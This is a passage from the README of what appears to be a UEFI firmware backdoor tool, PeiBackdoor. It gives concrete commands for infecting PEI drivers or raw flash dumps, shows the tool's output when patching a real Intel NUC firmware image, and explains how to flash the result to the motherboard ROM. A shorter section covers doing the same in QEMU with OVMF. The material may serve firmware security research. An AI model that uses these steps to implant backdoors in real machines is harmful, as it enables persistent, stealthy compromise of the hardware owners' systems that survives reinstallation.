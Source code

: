 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://raw.githubusercontent.com/Cr4sh/blog/master/pei-replace.png" width="650">

... and itfect it using `PeiBackdoor.py`:

1. Infect extracted PE or TE image with `SmmBackdoor_IA32.efi` or `SmmBackdoor_X64.efi` depending on it's architecture: `python PeiBackdoor.py -d image.efi -o image_patched.efi -p PeiBackdoor_X64.efi`

2. Use UEFITool to replace original PE image with `image_patched.efi`, save modified flash image into the file and write it to the motherboard ROM with programmer.

Unfortunately, on some machines (for example my Intel NUC) patched flash image is not working after it's modification with UEFITool, so, I implemented `-f` option for `PeiBackdoor.py` that allows to infect raw firmware image without PEI firmware volue rebuild needed. Here's example of it's usage to infect [SYSKLi35.86A](https://downloadcenter.intel.com/download/26195/BIOS-Update-SYSKLi35-86A-?product=89190) firmware of Skylake based Intel NUC:

```
$ python PeiBackdoor.py -f flash.bin -p PeiBackdoor_IA32.efi -o flash_patched.bin
[+] Target image: flash.bin
[+] Payload: PeiBackdoor.efi
[+] Output file: flash_patched.bin
Target PEI driver is located at offset 0x7246ec
PEI driver image base is 0xfff2454c
PEI driver image stripped size is 0x1c8
PEI driver patch location is at 0x72d47c (6 bytes)
Loader is at offset 0x7de000
Payload is at offset 0x7de040 (entry point RVA is 0x31f)
Target PEI driver was successfully patched
Relocating payload to 0xfffde040
Flash was successfully infected
```

Please note, that I used 32-bit `PeiBackdoor_IA32.efi` backdoor binary because Intel NUC, like lots of others machines with AMI based firmware, has 32-bit PEI phase code (I guess, mostly because it allows to have a bit smaller binaries than x86_64).

## Running on QEMU <a id="_4"></a>

To run PEI backdoor on [QEMU](http://qemu.org/) virtual machine with [OVMF firmware](http://www.linux-kvm.org/page/OVMF) you have to perform the following steps:

1. Edit `config.h` and uncomment `BACKDOOR_DEBUG_OVMF` to see PEI backdoor debug messages generated with `DbgMsg()` function of [src/debug.c](https://github.com/Cr4sh/PeiBackdoor/blob/master/src/debug.c) in OVMF debug output.

2. Execute `build` command from the root directory of EDK2 source code tree to build the whole OVMF firmware for `TARGET_ARCH = X64`, resulting firmware image file will be located at `Build/OvmfX64/DEBUG_VS2008x86/FV/OVMF.fd`

3. Infect [PlatformPei](https://github.com/tianocore/edk2/blob/master/OvmfPkg/PlatformPei) driver of EDK2 with the PEI backdoor: `python PeiBackdoor/PeiBackdoor.py -d Build/OvmfX64/DEBUG_VS2008x86/X64/OvmfPkg/PlatformPei/PlatformPei/OUTPUT/PlatformPei.efi -p PeiBackdoor_X64.efi`

4. Rebuild OVMF firmware image: `GenFds -f OvmfPkg\OvmfPkgX64.fdf -o Build\OvmfX64\DEBUG_VS2008x86 -t VS2008x86 -b DEBUG -p OvmfPkg\OvmfPkgX64.dsc -a X64 -D "EFI_SOURCE=EdkCompatibilityPkg" -D "EDK_SOURCE=EdkCompatibilityPkg" -D "TOOL_CHAIN_TAG=VS2008x86" -D "TOOLCHAIN=VS2008x86" -D "TARGET=DEBUG" -D "WORKSPACE=." -D "EDK_TOOLS_PATH=BaseTools" -D "ARCH=X64" -D "ECP_SOURCE=EdkCompatibilityPkg"`
